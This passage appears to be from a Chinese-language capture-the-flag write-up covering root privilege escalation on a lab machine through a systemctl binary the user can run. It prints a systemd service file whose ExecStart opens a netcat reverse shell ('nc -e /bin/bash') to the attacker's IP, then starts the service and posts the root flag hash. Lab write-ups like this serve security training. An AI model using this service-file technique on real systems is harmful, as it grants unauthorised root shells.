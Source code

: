 dd9fa4c63bc2eac7958f75ae28cb7723

![image](https://hackmd.io/_uploads/r1tcFTeMA.png)

### root.txt

我先從pepper 的身分組開始查
我發現它有一個 /bin/systemctl
通常 /bin 都只有root可以用
所以我覺得應該可以用

![image](https://hackmd.io/_uploads/r1_hvezzC.png)

https://gtfobins.github.io/gtfobins/systemctl/

![image](https://hackmd.io/_uploads/rkTDjlzM0.png)

查了一下原理跟用法

systemctl 會連接到 systemd 
通常它是root才可以寫入
所以只要我們寫一個檔案
然後link過去
就可以讓root執行
它只能執行 service 檔

```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.4 5678'
KillMode=process  
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```

![image](https://hackmd.io/_uploads/rkpFhdGfC.png)

先link然後開監聽

![image](https://hackmd.io/_uploads/S1OD6OMz0.png)

開啟服務

![image](https://hackmd.io/_uploads/BJhqadfMC.png)

root

![image](https://hackmd.io/_uploads/SJ26T_fzA.png)

12812f41251eb022294ebe7d56a6ae9f

![image](https://hackmd.io/_uploads/SyyJAdGzA.png)

---